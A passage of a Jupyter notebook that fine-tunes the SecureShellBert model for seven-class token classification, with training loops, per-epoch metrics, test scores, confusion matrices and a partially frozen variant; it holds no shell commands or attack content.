



array([[8.35518474e-01, 1.86730234e-02, 0.00000000e+00, 1.08462455e-01,
        3.17838697e-03, 3.41676599e-02, 0.00000000e+00],
       [9.96631106e-02, 8.52610893e-01, 2.00729927e-02, 3.50926446e-03,
        3.79000561e-03, 4.49185851e-03, 1.58618754e-02],
       [1.52905199e-03, 1.27420999e-02, 9.82670744e-01, 2.03873598e-03,
        0.00000000e+00, 5.09683996e-04, 5.09683996e-04],
       [7.40740741e-02, 4.62962963e-02, 0.00000000e+00, 7.62345679e-01,
        0.00000000e+00, 2.77777778e-02, 8.95061728e-02],
       [1.35026738e-01, 3.74331551e-02, 0.00000000e+00, 2.67379679e-03,
        8.22192513e-01, 2.67379679e-03, 0.00000000e+00],
       [0.00000000e+00, 2.89156627e-01, 2.40963855e-02, 0.00000000e+00,
        0.00000000e+00, 6.86746988e-01, 0.00000000e+00],
       [7.27272727e-02, 2.63636364e-01, 0.00000000e+00, 9.09090909e-03,
        7.27272727e-02, 0.00000000e+00, 5.81818182e-01]])

In [47]:
compute_confusion_matrix(full_predictions, full_labels, normalize=False)
compute_confusion_matrix(full_predictions, full_labels, normalize=True)

## SmartDataPolito

In [48]:
from transformers import AutoModelForTokenClassification, AutoTokenizer
from torch.optim import AdamW
from transformers import get_scheduler
free_cuda_memory()
pretrained_model = 'SmartDataPolito/SecureShellBert'
model = AutoModelForTokenClassification.from_pretrained(
    pretrained_model_name_or_path=pretrained_model,
    id2label=id2label,
    label2id=label2id,
)
tokenizer = AutoTokenizer.from_pretrained(pretrained_model,add_prefix_space=True)
tokenized_datasets = encoded_dataset.map(
    tokenize_and_align_labels,
    batched=True, # Can be performed in batches, in order to speed up times!
    remove_columns=original_columns,# To remove the original columns
)
train_dataloader = DataLoader(
    tokenized_datasets["train"],
    shuffle=True,
    collate_fn=data_collator,
    batch_size=16
)
eval_dataloader = DataLoader(
    tokenized_datasets["valid"], collate_fn=data_collator, batch_size=16
)
test_dataloader = DataLoader(
    tokenized_datasets["test"], collate_fn=data_collator, batch_size=16
)

LR = 1e-5
N_TRAIN_EPOCHS = 50
# Define optimizer
optimizer = AdamW(model.parameters(), lr=LR)
num_update_steps_per_epoch = len(train_dataloader)
# Total number of training steps: number_batches_x_epoch x number of epochs!
num_training_steps = N_TRAIN_EPOCHS * num_update_steps_per_epoch

lr_scheduler = get_scheduler(
    "linear",
    optimizer=optimizer,
    num_warmup_steps=0,
    num_training_steps=num_training_steps,
)
best_val_loss, best_epoch = np.inf, 0
best_model_local = deepcopy(model)
model = model.to(device)
model.device

CUDA memory freed.


config.json:   0%|          | 0.00/726 [00:00<?, ?B/s]

pytorch_model.bin:   0%|          | 0.00/499M [00:00<?, ?B/s]

Some weights of RobertaForTokenClassification were not initialized from the model checkpoint at SmartDataPolito/SecureShellBert and are newly initialized: ['classifier.bias', 'classifier.weight']
You should probably TRAIN this model on a down-stream task to be able to use it for predictions and inference.


tokenizer_config.json: 0.00B [00:00, ?B/s]

vocab.json: 0.00B [00:00, ?B/s]

merges.txt: 0.00B [00:00, ?B/s]

tokenizer.json: 0.00B [00:00, ?B/s]

model.safetensors:   0%|          | 0.00/499M [00:00<?, ?B/s]

special_tokens_map.json:   0%|          | 0.00/280 [00:00<?, ?B/s]

Map:   0%|          | 0/200 [00:00<?, ? examples/s]

Map:   0%|          | 0/51 [00:00<?, ? examples/s]

Map:   0%|          | 0/108 [00:00<?, ? examples/s]

device(type='cuda', index=0)

In [49]:
progress_bar = tqdm(range(num_training_steps))
val_losses, train_losses = [], [] # Lists to keep track of the training and validation losses

for epoch in range(N_TRAIN_EPOCHS):
    # Training
    model.train()
    train_loss = 0
    for batch in train_dataloader:
        batch = {key:value.to(device) for key, value in batch.items()}
        # Model expects:
        # - input_ids > i.e., which tokens we must map into the embeddings
        # - attention_mask > who shall each token pays attention to
        # - labels > the NER tags
        outputs = model(input_ids=batch["input_ids"],
                        attention_mask=batch["attention_mask"],
                        labels=batch["labels"]
        )
        # Notice: the model already comes with a CrossEntropy loss
        # - if `labels` are defined, a loss is also computed
        loss = outputs.loss
        train_loss += loss.detach().cpu().clone().numpy()
        loss.backward()
        optimizer.step()
        lr_scheduler.step()
        optimizer.zero_grad()
        progress_bar.update(1)
    train_losses.append(train_loss/len(train_dataloader))
    # Evaluation
    model.eval()
    full_predictions, full_labels = [], []
    val_loss = 0
    for batch in eval_dataloader:
        batch = {key:value.to(device) for key, value in batch.items()}
        with torch.no_grad():
            outputs = model(**batch)
        val_loss += outputs.loss.detach().cpu().clone().numpy()
        # Extract the predictions
        predictions = outputs.logits.argmax(dim=-1)
        labels = batch["labels"]
        true_predictions, true_labels = postprocess(predictions, labels)
        full_predictions+=true_predictions
        full_labels+=true_labels
    val_loss = val_loss/len(eval_dataloader)
    val_losses.append(val_loss)
    metrics = compute_metrics(full_predictions, full_labels)
    print(
        f"epoch {epoch}:",
        {
            key: metrics[key]
            for key in ["token_accuracy", "token_f1"]
        },
    )
    if val_loss <= best_val_loss:
        best_epoch = epoch
        best_val_loss = val_loss
        best_model_local = deepcopy(model)

  0%|          | 0/650 [00:00<?, ?it/s]

epoch 0: {'token_accuracy': 0.6018440905280805, 'token_f1': 0.1881452941190705}
epoch 1: {'token_accuracy': 0.6541492036881811, 'token_f1': 0.21198779699728945}
epoch 2: {'token_accuracy': 0.7027661357921207, 'token_f1': 0.2849363931935373}
epoch 3: {'token_accuracy': 0.7560771165129925, 'token_f1': 0.33285520837431054}
epoch 4: {'token_accuracy': 0.7901089689857502, 'token_f1': 0.35506162174637285}
epoch 5: {'token_accuracy': 0.8122380553227159, 'token_f1': 0.3674508059257154}
epoch 6: {'token_accuracy': 0.8291701592623638, 'token_f1': 0.3748446699776844}
epoch 7: {'token_accuracy': 0.8392288348700755, 'token_f1': 0.41276666277302226}
epoch 8: {'token_accuracy': 0.8586756077116513, 'token_f1': 0.47971625587432226}
epoch 9: {'token_accuracy': 0.8660519698239731, 'token_f1': 0.5152569173666093}
epoch 10: {'token_accuracy': 0.8694048616932104, 'token_f1': 0.5418387422647902}
epoch 11: {'token_accuracy': 0.8749371332774518, 'token_f1': 0.5933134007838234}
epoch 12: {'token_accuracy': 0.89



In [50]:
plot_stats("SecureShellBert", train_losses,
           validation_losses=val_losses, best_epoch=best_epoch)

In [51]:
if best_val_loss < best_model['val_loss']:
    best_model['model'] = deepcopy(best_model_local)
    best_model['val_loss'] = best_val_loss
    best_model['name'] = pretrained_model
    print(f"The best model has been changed: {best_model['name']}, {best_model['val_loss']}")

The best model has been changed: SmartDataPolito/SecureShellBert, 0.23361128568649292


token_accuracy      :  88.61%
token_f1            :  71.21%
token_precision     :  67.88%
token_recall        :  84.24%
token_fidelity      :  89.33%




In [52]:
# Evaluation
model.eval()
full_predictions, full_labels = [], []
for batch in test_dataloader:
    batch = {key:value.to(device) for key, value in batch.items()}
    with torch.no_grad():
        # Another way to pass the items to the model
        outputs = best_model_local(**batch)
    # Extract the predictions
    predictions = outputs.logits.argmax(dim=-1)
    labels = batch["labels"]
    true_predictions, true_labels = postprocess(predictions, labels)
    full_predictions+=true_predictions
    full_labels+=true_labels
test_metrics = compute_metrics(full_predictions, full_labels)

results.update({"Secure Shell Bert ":test_metrics})
for key in ["token_accuracy", "token_f1", "token_precision", "token_recall", "token_fidelity"]:
    print(f"{key:<20}: {test_metrics[key]*100:6.2f}%")
f1_results.update({"Secure Shell Bert ":plot_per_class_f1(full_predictions, full_labels, id2label)})





array([[9.08839779e-01, 1.38121547e-02, 9.04068307e-03, 3.41536916e-02,
        1.45655450e-02, 1.95881467e-02, 0.00000000e+00],
       [8.30687831e-02, 8.63624339e-01, 1.41534392e-02, 1.45502646e-03,
        4.36507937e-03, 1.65343915e-02, 1.67989418e-02],
       [9.46073794e-04, 1.13528855e-02, 9.87701041e-01, 0.00000000e+00,
        0.00000000e+00, 0.00000000e+00, 0.00000000e+00],
       [0.00000000e+00, 4.34782609e-02, 0.00000000e+00, 8.86189258e-01,
        1.02301790e-02, 0.00000000e+00, 6.01023018e-02],
       [2.19178082e-01, 1.05022831e-01, 0.00000000e+00, 4.79452055e-02,
        6.07305936e-01, 2.05479452e-02, 0.00000000e+00],
       [0.00000000e+00, 0.00000000e+00, 0.00000000e+00, 0.00000000e+00,
        0.00000000e+00, 1.00000000e+00, 0.00000000e+00],
       [0.00000000e+00, 3.57142857e-01, 0.00000000e+00, 0.00000000e+00,
        0.00000000e+00, 0.00000000e+00, 6.42857143e-01]])

In [53]:
compute_confusion_matrix(full_predictions, full_labels, normalize=False)
compute_confusion_matrix(full_predictions, full_labels, normalize=True)

## Best Model - 2 layer and classfication head unfrozen

In [54]:
free_cuda_memory()
pretrained_model = best_model['name']
print(f"Best model: {pretrained_model}")

model = AutoModelForTokenClassification.from_pretrained(
    pretrained_model_name_or_path=pretrained_model,
    id2label=id2label,
    label2id=label2id,
)
tokenizer = AutoTokenizer.from_pretrained(pretrained_model,add_prefix_space=True)
tokenized_datasets = encoded_dataset.map(
    tokenize_and_align_labels,
    batched=True, # Can be performed in batches, in order to speed up times!
    remove_columns=original_columns,# To remove the original columns
)
train_dataloader = DataLoader(
    tokenized_datasets["train"],
    shuffle=True,
    collate_fn=data_collator,
    batch_size=16
)
eval_dataloader = DataLoader(
    tokenized_datasets["valid"], collate_fn=data_collator, batch_size=16
)
test_dataloader = DataLoader(
    tokenized_datasets["test"], collate_fn=data_collator, batch_size=16
)
# Freeze all layers
for param in model.base_model.parameters():
    param.requires_grad = False

# Unfreeze the last 2 layers
# The encoder part depends on the architecture. Let's assume it's BERT-like (most common).
for param in model.base_model.encoder.layer[-2:].parameters():
    param.requires_grad = True

# The classification head (the token classifier) also needs to be trainable
for param in model.classifier.parameters():
    param.requires_grad = True

total_params = sum(p.numel() for p in model.parameters())
trainable_params = [(name, p.numel()) for name, p in model.named_parameters() if p.requires_grad]
trainable_count = sum(n for _, n in trainable_params)

print(f"Total model parameters: {total_params:,}")
print(f"Trainable parameters: {trainable_count:,} ({trainable_count/total_params:.2%} of total)\n")
print("Trainable parameter tensors:")
for idx, (name, num) in enumerate(trainable_params, 1):
    print(f"{idx:2d}. {name:<60} ({num:,} params)")


CUDA memory freed.
Best model: SmartDataPolito/SecureShellBert


Some weights of RobertaForTokenClassification were not initialized from the model checkpoint at SmartDataPolito/SecureShellBert and are newly initialized: ['classifier.bias', 'classifier.weight']
You should probably TRAIN this model on a down-stream task to be able to use it for predictions and inference.


Map:   0%|          | 0/200 [00:00<?, ? examples/s]

Map:   0%|          | 0/51 [00:00<?, ? examples/s]

Map:   0%|          | 0/108 [00:00<?, ? examples/s]

Total model parameters: 124,060,423
Trainable parameters: 14,181,127 (11.43% of total)

Trainable parameter tensors:
 1. roberta.encoder.layer.10.attention.self.query.weight         (589,824 params)
 2. roberta.encoder.layer.10.attention.self.query.bias           (768 params)
 3. roberta.encoder.layer.10.attention.self.key.weight           (589,824 params)
 4. roberta.encoder.layer.10.attention.self.key.bias             (768 params)
 5. roberta.encoder.layer.10.attention.self.value.weight         (589,824 params)
 6. roberta.encoder.layer.10.attention.self.value.bias           (768 params)
 7. roberta.encoder.layer.10.attention.output.dense.weight       (589,824 params)
 8. roberta.encoder.layer.10.attention.output.dense.bias         (768 params)
 9. roberta.encoder.layer.10.attention.output.LayerNorm.weight   (768 params)
10. roberta.encoder.layer.10.attention.output.LayerNorm.bias     (768 params)
11. roberta.encoder.layer.10.intermediate.dense.weight           (2,359,296 params)
12.

In [55]:
LR = 1e-5
N_TRAIN_EPOCHS = 50
# Define optimizer
optimizer = AdamW(model.parameters(), lr=LR)
num_update_steps_per_epoch = len(train_dataloader)
# Total number of training steps: number_batches_x_epoch x number of epochs!
num_training_steps = N_TRAIN_EPOCHS * num_update_steps_per_epoch

lr_scheduler = get_scheduler(
    "linear",
    optimizer=optimizer,
    num_warmup_steps=0,
    num_training_steps=num_training_steps,
)



In [56]:
def postprocess(predictions, labels):
    """
    Post-processes model predictions and ground-truth labels for evaluation.

    This function detaches predictions and labels from any computation graph,
    moves them to CPU, clones, and converts them to NumPy arrays. It then
    maps token IDs to their corresponding label names, ignoring special
    tokens indicated by the index `-100`.

    Args:
        predictions (torch.Tensor): Model output predictions (logits or token IDs).
        labels (torch.Tensor): Ground-truth labels corresponding to the inputs.

    Returns:
        Tuple[List[List[str]], List[List[str]]]:
            A tuple containing two lists:
            - `true_predictions`: The list of predicted label sequences, aligned with the true labels.
            - `true_labels`: The list of true label sequences with special tokens removed.
    """
    predictions = predictions.detach().cpu().clone().numpy()
    labels = labels.detach().cpu().clone().numpy()
    # Remove ignored index (special tokens) and convert to labels
    true_labels = [[id2label[l] for l in label if l != -100] for label in labels]
    true_predictions = [
        [id2label[p] for (p, l) in zip(prediction, label) if l != -100]
        for prediction, label in zip(predictions, labels)
    ]
    return true_predictions, true_labels

In [57]:
best_val_loss, best_epoch = np.inf, 0
best_model_local = deepcopy(model)
model = model.to(device)
model.device

device(type='cuda', index=0)

In [58]:
progress_bar = tqdm(range(num_training_steps))
val_losses, train_losses = [], [] # Lists to keep track of the training and validation losses

for epoch in range(N_TRAIN_EPOCHS):
    # Training
    model.train()
    train_loss = 0
    for batch in train_dataloader:
        batch = {key:value.to(device) for key, value in batch.items()}
        # Model expects:
        # - input_ids > i.e., which tokens we must map into the embeddings
        # - attention_mask > who shall each token pays attention to
        # - labels > the NER tags
        outputs = model(input_ids=batch["input_ids"],
                        attention_mask=batch["attention_mask"],
                        labels=batch["labels"]
        )
        # Notice: the model already comes with a CrossEntropy loss
        # - if `labels` are defined, a loss is also computed
        loss = outputs.loss
        train_loss += loss.detach().cpu().clone().numpy()
        loss.backward()
        optimizer.step()
        lr_scheduler.step()
        optimizer.zero_grad()
        progress_bar.update(1)
    train_losses.append(train_loss/len(train_dataloader))
    # Evaluation
    model.eval()
    full_predictions, full_labels = [], []
    val_loss = 0
    for batch in eval_dataloader:
        batch = {key:value.to(device) for key, value in batch.items()}
        with torch.no_grad():
            outputs = model(**batch)
        val_loss += outputs.loss.detach().cpu().clone().numpy()
        # Extract the predictions
        predictions = outputs.logits.argmax(dim=-1)
        labels = batch["labels"]
        true_predictions, true_labels = postprocess(predictions, labels)
        full_predictions+=true_predictions
        full_labels+=true_labels
    val_loss = val_loss/len(eval_dataloader)
    val_losses.append(val_loss)
    metrics = compute_metrics(full_predictions, full_labels)
    print(
        f"epoch {epoch}:",
        {
            key: metrics[key]
            for key in ["token_accuracy", "token_f1"]
        },
    )
    if val_loss <= best_val_loss:
        best_epoch = epoch
        best_val_loss = val_loss
        best_model_local = deepcopy(model)

  0%|          | 0/650 [00:00<?, ?it/s]

epoch 0: {'token_accuracy': 0.514501257334451, 'token_f1': 0.1681500890106755}
epoch 1: {'token_accuracy': 0.5728415758591785, 'token_f1': 0.17687780988651308}
epoch 2: {'token_accuracy': 0.5741827326068735, 'token_f1': 0.17654941167753016}
epoch 3: {'token_accuracy': 0.6259849119865885, 'token_f1': 0.20574580041501314}
epoch 4: {'token_accuracy': 0.640905280804694, 'token_f1': 0.22479664794058318}
epoch 5: {'token_accuracy': 0.6461022632020117, 'token_f1': 0.23820132375699105}
epoch 6: {'token_accuracy': 0.6514668901927912, 'token_f1': 0.2451763053345031}
epoch 7: {'token_accuracy': 0.6695725062866723, 'token_f1': 0.26616790465773044}
epoch 8: {'token_accuracy': 0.6811399832355407, 'token_f1': 0.27327198732325364}
epoch 9: {'token_accuracy': 0.6866722548197821, 'token_f1': 0.28236725293462833}
epoch 10: {'token_accuracy': 0.6900251466890193, 'token_f1': 0.2858799231304848}
epoch 11: {'token_accuracy': 0.7027661357921207, 'token_f1': 0.2930498781205972}
epoch 12: {'token_accuracy': 0.7



In [59]:
plot_stats("Best Model - Frozen", train_losses,
           validation_losses=val_losses, best_epoch=best_epoch)

In [60]:
if best_val_loss < best_model['val_loss']:
    best_model['model'] = deepcopy(best_model_local)
    best_model['val_loss'] = best_val_loss
    best_model['name'] = pretrained_model
    print(f"The best model has been changed: {best_model['name']}, {best_model['val_loss']}")

token_accuracy      :  77.51%
token_f1            :  42.37%
token_precision     :  68.16%
token_recall        :  40.92%
token_fidelity      :  78.64%




In [61]:
# Evaluation
model.eval()
full_predictions, full_labels = [], []
for batch in test_dataloader:
    batch = {key:value.to(device) for key, value in batch.items()}
    with torch.no_grad():
        # Another way to pass the items to the model
        outputs = best_model_local(**batch)
    # Extract the predictions
    predictions = outputs.logits.argmax(dim=-1)
    labels = batch["labels"]
    true_predictions, true_labels = postprocess(predictions, labels)
    full_predictions+=true_predictions
    full_labels+=true_labels
test_metrics = compute_metrics(full_predictions, full_labels)
results.update({"Best Model 2 layer + classification header":test_metrics})
for key in ["token_accuracy", "token_f1", "token_precision", "token_recall", "token_fidelity"]:
    print(f"{key:<20}: {test_metrics[key]*100:6.2f}%")

f1_results.update({"Best Model 2 layer + classification header ":plot_per_class_f1(full_predictions, full_labels, id2label)})





array([[8.02761795e-01, 1.86191024e-01, 1.08170311e-02, 0.00000000e+00,
        2.30149597e-04, 0.00000000e+00, 0.00000000e+00],
